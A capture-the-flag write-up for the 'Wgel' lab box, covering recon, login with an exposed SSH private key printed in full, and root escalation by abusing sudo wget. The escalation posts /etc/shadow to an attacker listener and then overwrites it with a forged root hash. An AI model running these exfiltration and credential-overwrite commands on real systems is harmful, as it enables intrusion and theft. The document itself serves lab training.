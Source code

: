 # Wgel

Notes on CTF.

## recon

### nmap

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-21 03:18 UTC
Nmap scan report for ip-10-10-153-44.eu-west-1.compute.internal (10.10.153.44)
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94961b66801b7648682d14b59a01aaaa (RSA)
|   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
|_  256 b90b972e459bf32a4b11c7831033e0ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:9B:3D:51:A9:8B (Unknown)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.10 - 3.13
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   2.05 ms ip-10-10-153-44.eu-west-1.compute.internal (10.10.153.44)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.50 seconds
```

### gobuster

```
└─# gobuster dir -u $TARGET -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.153.44
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/07/21 03:21:57 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.153.44/sitemap/]
Progress: 17377 / 20470 (84.89%)===============================================================
2023/07/21 03:21:59 Finished
===============================================================
```

```
└─# gobuster dir -u $TARGET/sitemap -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.153.44/sitemap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/07/21 03:26:23 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.153.44/sitemap/.ssh/]
/.htpasswd            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 318] [--> http://10.10.153.44/sitemap/css/]
/fonts                (Status: 301) [Size: 320] [--> http://10.10.153.44/sitemap/fonts/]
/images               (Status: 301) [Size: 321] [--> http://10.10.153.44/sitemap/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.153.44/sitemap/js/]
Progress: 17364 / 20470 (84.83%)===============================================================
2023/07/21 03:26:25 Finished
===============================================================
```


### website

http://10.10.153.44/sitemap/ runs something called UNAPP

## initial access

view-source:http://10.10.153.44/

`<!-- Jessie don't forget to udate the webiste -->`

### ssh
http://10.10.153.44/sitemap/.ssh/id_rsa

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

`└─# curl http://10.10.153.44/sitemap/.ssh/id_rsa > sshkey`

`└─# chmod 600 sshkey `

Need username.

try `jessie` from the note.

`└─# ssh jessie@$TARGET -i sshkey`

## escalation

`jessie@CorpOne:~$ cat Documents/user_flag.txt`


**057c67131c3d5e42dd5cd3075b198ff6**


`jessie@CorpOne:~$ sudo -l`

```
    (root) NOPASSWD: /usr/bin/wget
```
### wget to root

https://vk9-sec.com/wget-privilege-escalation/


`└─# nc -nvlp 8080 > shadow`

`jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/etc/shadow 10.10.254.67:8080`

```
root:!:18195:0:99999:7:::
```
root doesn't have a password. We can generate one:

`└─# openssl passwd -6 -salt xyz password`

replace `!` with 
```
$6$xyz$ShNnbwk5fmsyVIlzOf8zEg4YdEH2aWRSuY4rJHbzLZRlWcoXbxxoI0hfn0mdXiJCdBJ/lTpKjk.vu5NZOv0UM0
```

shadow should now contain:

```
root:$6$xyz$ShNnbwk5fmsyVIlzOf8zEg4YdEH2aWRSuY4rJHbzLZRlWcoXbxxoI0hfn0mdXiJCdBJ/lTpKjk.vu5NZOv0UM0:18195:0:99999:7:::
```

`└─# python -m http.server`

`jessie@CorpOne:~$ sudo /usr/bin/wget 10.10.254.67:8000/shadow -O /etc/shadow`

`jessie@CorpOne:~$ su root` and use the password we assigned which is `password`


`root@CorpOne:~# cat root_flag.txt `

**b1b968b37519ad1daa6408188649263d**
